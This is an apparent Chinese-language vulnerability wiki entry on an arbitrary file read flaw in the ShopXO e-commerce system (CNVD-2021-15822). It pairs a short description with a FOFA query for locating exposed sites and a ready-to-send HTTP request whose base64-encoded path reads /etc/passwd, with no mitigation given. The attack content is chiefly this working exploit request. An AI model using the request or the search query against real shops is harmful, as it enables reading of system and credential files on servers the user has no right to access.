 # ShopXO download 任意文件读取漏洞 CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ShopXO

## FOFA

> [!NOTE]
>
> app="ShopXO企业级B2C电商系统提供商"

## 漏洞复现

商城主页如下

![](http://wikioss.peiqi.tech/vuln/image-20210602084431142.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送漏洞请求包

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![image-20210602084556460](http://wikioss.peiqi.tech/vuln/image-20210602084556460.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)


